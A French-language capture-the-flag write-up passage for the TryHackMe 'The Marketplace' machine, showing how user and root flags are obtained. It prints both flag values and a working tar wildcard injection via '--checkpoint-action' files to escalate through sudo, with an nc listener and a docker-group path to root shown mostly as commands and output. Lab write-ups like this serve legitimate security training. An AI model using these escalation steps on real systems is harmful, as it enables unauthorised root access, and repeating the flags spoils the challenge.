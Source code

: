 Dans le répertoire jake on trouve un fichier user.txt avec le flag.
On le lit et on trouve la réponse qui est : THM{c3648ee7af1369676e3e4b15da6dc0b4}   

**What is flag 3? (Root.txt)**
```bash
jake@the-marketplace:~$ sudo -l
Matching Defaults entries for jake on the-marketplace:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jake may run the following commands on the-marketplace:
    (michael) NOPASSWD: /opt/backups/backup.sh
```

Dans le fichier de configuration sudo on voit que l'on exécuter backup.sh avec les droits michael.    

```bash
jake@the-marketplace:~$ ls -al /opt/backups/backup.sh 
-rwxr-xr-x 1 michael michael 73 Aug 23  2020 /opt/backups/backup.sh

jake@the-marketplace:~$ cat /opt/backups/backup.sh 
#!/bin/bash
echo "Backing up files...";
tar cf /opt/backups/backup.tar *

```

On voit que l'on peut pas écrire dans backup.sh.   
Dans fichier backup.sh on voit que tar est exécuter avec un willcard (joker).   
On peut l'exploiter  pour une evélation de privillège.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ nc -lnvp 1234
listening on [any] 1234 ...
-----
jake@the-marketplace:~$ cd /opt/backups/
jake@the-marketplace:/opt/backups$ echo > --checkpoint=1 
jake@the-marketplace:/opt/backups$ echo > '--checkpoint-action=exec=sh shell.sh'
jake@the-marketplace:/opt/backups$ echo "/bin/bash" > shell.sh
jake@the-marketplace:/opt/backups$ chmod +x shell.sh 
jake@the-marketplace:/opt/backups$ chmod 777 backup.tar
jake@the-marketplace:/opt/backups$ sudo -u michael /opt/backups/backup.sh 
Backing up files...
tar: backup.tar: file is the archive; not dumped
```

On exploite la faille wilcard en faisant exécuter notre scripte.  
On obtient les droits de michael.    

```bash
michael@the-marketplace:/home/michael$ groups
michael docker
michael@the-marketplace:/home/michael$ id

uid=1002(michael) gid=1002(michael) groups=1002(michael),999(docker)
michael@the-marketplace:/home/michael$ docker image ls
REPOSITORY                   TAG                 IMAGE ID            CREATED             SIZE
themarketplace_marketplace   latest              6e3d8ac63c27        12 months ago       2.16GB
nginx                        latest              4bb46517cac3        13 months ago       133MB
node                         lts-buster          9c4cc2688584        13 months ago       886MB
mysql                        latest              0d64f46acfd1        13 months ago       544MB
alpine                       latest              a24bb4013296        15 months ago       5.57MB

# id
uid=0(root) gid=0(root) groups=0(root),1(daemon),2(bin),3(sys),4(adm),6(disk),10(uucp),11,20(dialout),26(tape),27(sudo)
# cat /root/root.txt	
THM{d4f76179c80c0dcf46e0f8e43c9abd62}
```